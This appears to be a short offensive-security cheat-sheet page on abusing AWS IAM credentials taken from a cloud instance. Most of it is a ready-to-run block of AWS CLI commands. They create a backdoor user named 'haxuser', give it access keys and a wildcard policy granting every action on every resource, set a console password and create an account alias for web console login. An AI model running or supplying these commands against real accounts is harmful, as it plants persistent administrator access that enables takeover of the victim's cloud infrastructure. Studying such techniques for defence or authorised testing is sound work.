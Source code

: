 # Identity and Access Management

IAM credential It can be used to access other cloud services such as the S3 bucket or container registry. 
If an admin identity is attached to the instance or the identity is provisioned with excessive privileges, attackers can compromise the entire cloud infrastructure.


```
aws iam create-user --user-name haxuser
aws iam create-access-key --user-name haxuser
aws iam create-group --group-name haxuser
#Assign group policy for temp group granting all access
aws iam put-group-policy --group-name haxuser --policy-name haxuser --policy-document '{"Version":"2012-10-17", "Statement": [{"Sid": "Stmt1437414476731", "Action": "*", "Effect": "Allow", "Resource": "*" }]}'
# Add temp user to temp group
aws iam add-user-to-group --group-name haxuser --user-name haxuser

#Create a login profile for temp user with a SUPER COOL password
aws iam create-login-profile --user-name haxuser --password 'SuperDuperCoolPassword'

#Create an account alias so you can access the account web console
aws iam create-account-alias --account-alias haxuseralias
hxxps://haxuseralias.signin.aws.amazon.com/console/
```

ref https://d47zm3.me/resources/infosec/cloud-security/

